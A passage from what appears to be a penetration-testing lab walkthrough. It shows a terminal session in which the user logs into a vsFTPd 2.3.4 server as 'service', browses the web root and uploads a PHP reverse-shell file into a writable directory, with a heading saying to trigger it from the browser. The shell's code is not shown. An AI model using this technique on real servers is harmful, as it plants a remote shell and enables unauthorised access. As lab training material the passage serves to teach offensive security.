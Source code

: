 ```bash
ftp> pwd
Remote directory: /home/service
```





**upload php reverse shell via ftp and run it from the browser**

```bash
root@attackdefense:~# nano php-reverse-shell.php 

root@attackdefense:~# ftp 10.4.26.168
Connected to 10.4.26.168.
220 (vsFTPd 2.3.4)
Name (10.4.26.168:root): service
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd /var/www
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||43614|).
ftp: Can't connect to `10.4.26.168:43614': Connection refused
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxrwxrwt    2 0        0            4096 May 20  2012 dav
drwxr-xr-x    8 33       33           4096 May 20  2012 dvwa
-rw-r--r--    1 33       33            891 May 20  2012 index.php
drwxr-xr-x   10 33       33           4096 May 14  2012 mutillidae
drwxr-xr-x   11 33       33           4096 May 14  2012 phpMyAdmin
-rw-r--r--    1 33       33             19 Apr 16  2010 phpinfo.php
drwxr-xr-x    3 33       33           4096 May 14  2012 test
drwxrwxr-x   22 33       33          20480 Apr 19  2010 tikiwiki
drwxrwxr-x   22 33       33          20480 Apr 16  2010 tikiwiki-old
drwxr-xr-x    7 33       33           4096 Apr 16  2010 twiki
226 Directory send OK.
ftp> cd dav
250 Directory successfully changed.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 EPRT command successful. Consider using EPSV.
150 Ok to send data.
100% |***********************************************************************************************************************************************|  5491       26.71 MiB/s    00:00 ETA
226 Transfer complete.
5491 bytes sent in 00:00 (297.69 KiB/s)
ftp> 

```
